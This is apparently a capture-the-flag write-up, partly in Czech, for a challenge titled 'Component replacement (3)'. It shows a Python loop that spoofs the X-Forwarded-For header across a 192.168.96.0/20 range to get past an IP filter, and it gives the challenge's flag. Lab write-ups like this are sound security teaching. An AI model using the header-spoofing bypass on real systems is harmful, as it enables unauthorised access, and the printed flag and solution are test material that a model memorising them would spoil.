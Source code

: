 # Component replacement (3)

## Zadání

Ahoy, officer,

the ship had to lower its speed because of broken `fuel efficiency enhancer`. To order a correct spare part, the chief engineer needs to know exact identification code of the spare part. However, he cannot access the web page listing all the key components in use. Maybe the problem has to do with recently readdressing of the computers in the engine room - the old address plan for whole ship was based on range `192.168.96.0/20`. Your task is to find out the identification code of the broken component.

May you have fair winds and following seas!

The webpage with spare parts listing is available at <http://key-parts-list.cns-jv.tcc>.

## Nápovědy (Hints)

1. Use VPN to get access to the webpage.
2. Try to bypass the IP address filter.

## Řešení

Po zobrazení stránky odpoví server chybou

`You are attempting to access from the IP address 10.200.0.47, which is not assigned to engine room. Access denied.`

Jak napovídá hint č. 2 je tedy nutné podstrčit serveru adresu z rozsahu `192.168.96.0/20`. Tedy `192.168.96.1 - 192.168.111.254`.

K tomu použijeme hlavičku `X-Forwarded-For` a jednoduchým skriptem vyzkoušíme všechny IP adresy

```python
import requests

for i in range(96, 112):
    for j in range(0, 256):
        ip = "192.168." + str(i) + '.' + str(j)
        headers = {
            "X-Forwarded-For": ip
        }
        r = requests.get('http://key-parts-list.cns-jv.tcc/', headers=headers)

        print(str(ip) + ' : ' + r.text)

        if 'FLAG{' in r.text:
            exit()
```

U IP adresy 192.168.100.32 se vypíše hledaný FLAG.

## Flag

`FLAG{MN9o-V8Py-mSZV-JkRz}`
